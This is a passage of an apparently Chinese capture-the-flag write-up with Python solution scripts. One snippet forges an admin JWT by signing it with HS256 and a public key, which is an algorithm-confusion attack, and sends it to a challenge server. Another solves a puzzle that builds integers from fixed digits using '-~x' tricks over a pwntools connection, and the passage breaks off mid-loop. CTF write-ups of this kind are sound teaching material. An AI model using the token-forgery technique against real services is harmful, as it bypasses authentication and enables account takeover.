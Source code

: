 ```python
s = {"sub": "admin", "exp": int(time.time() + 1800)}
token = jwt.encode(s, pubkey, algorithm='HS256').decode()

url = 'http://202.38.93.111:10092/profile'
r = requests.get(url, headers={'Authorization': 'Bearer ' + token, 'Hg-Token': htoken})
print(r.text)
```

## 超精巧的数字论证器

### 简单做法

![](old_uploads/hg_2019_2020/1.jpg)

![](old_uploads/hg_2019_2020/2.jpg)

通过这两张梗图，可以知道一个用法，`-~x`。`-~x` 等于 $x+1$，`~-x` 等于 $x-1$。

那么可以通过若干次 +1，然后乘 10（用 1 4 5 不停 +1 得到 10），这样的方式来处理一个数的十进制表示。

```python
from pwn import *


def cal(s):
	s = s.replace('/', '//')
	try:
		return eval(s)
	except:
		return None


def get(a, b):
	va = cal(a)
	if va == b:
		return a
	a = '(' + a + ')'
	if va < b:
		return '-~' * (b - va) + a
	return '~-' * (va - b) + a


def get_114514(x):
	res = get('1', x // 100000)
	res = '(' + res + ')*' + get('1', 10)
	res = get(res, x // 10000)
	res = '(' + res + ')*' + get('4', 10)
	res = get(res, x // 1000)
	res = '(' + res + ')*' + get('5', 10)
	res = get(res, x // 100)
	res = '(' + res + ')*' + get('1', 10)
	res = get(res, x // 10)
	res = '(' + res + ')*' + get('4', 10)
	res = get(res, x)
	return res


r = remote('202.38.93.111', 10241)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

for i in range(32):
	r.recvuntil('Chal')
```